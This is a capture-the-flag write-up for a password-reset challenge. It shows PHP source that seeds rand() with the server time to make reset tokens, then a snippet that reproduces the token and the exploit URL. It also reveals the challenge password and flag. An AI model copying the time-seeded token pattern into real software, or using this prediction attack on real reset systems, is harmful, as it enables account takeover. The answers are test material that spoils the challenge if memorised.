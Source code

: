 # Password Reset

__SOLUTION__

Again there's a form. So let's start by checking out the source code.
When you get the source it's an unknow file. Just do `➜ strings 51e157a76ec4a537756e904d586fef41`  and you'll have the source

```php
if(isset($_POST['reset_username'])) {
                srand(time());
                $token = rand(1000000000000000,9999999999999999);

                $hSql->FastQuery('DELETE FROM chal_113 WHERE ip_addr = ?', array($_SERVER['REMOTE_ADDR']));
                $hSql->FastQuery('insert into chal_113 values (?,?,?)', array($_SERVER['REMOTE_ADDR'], $token, time() + 3600));

if(URL_HANDLE::GetInstance()->get->k != null) {
                $result = reset($hSql->FastQuery('SELECT * FROM chal_113 WHERE ip_addr = ? AND recovery_key = ? ', array($_SERVER['REMOTE_ADDR'], URL_HANDLE::GetInstance()->get->k)));

                if($hSql->RowCount() != 0) {
                                if($result->expired_time > time()) {
                                                $success = '<div class="success">Here\'s your new password: XXXXXXXXXXXXXX</div>';
                                } else {
                                                $success = '<div class="error">Expired recovery key!</div>';
                                }
                } else {
                                $success = '<div class="error">Invalid recovery key!</div>';

```

You'll notice that ` if($result->expired_time > time())` So now we need to figure out how's that time coming.
Okay now looking at the code:
```php
if(isset($_POST['reset_username'])) {
                srand(time());
                $token = rand(1000000000000000,9999999999999999);
```

We see that the time we were talking about was used as a seed value for `randomness`. So if we take the time and generate the token with same random parameters we'll get same token.
If you're thinking why? Well because technically random numbers are not random in computers they have a `seed` value to decide a `number` which to us seems random but in reality is not. For more read: https://en.wikipedia.org/wiki/Random_number_generation.

```php
> $seedtime = strtotime('Sun, 09 Dec 2018 04:38:16 -0500');
> srand($seedtime);
> $token = rand(1000000000000000,9999999999999999);
> print $token;
8207905481224538
```

Now we have the token we have to send it: `https://ringzer0ctf.com/challenges/113/?k=8207905481224538` and we'll have the password `Thi%P@s50rD!sM1n3*` then simply login and get the flag.


FLAG - `FLAG-DlwwTV7vCQf4Dn281Yhb802x5U`
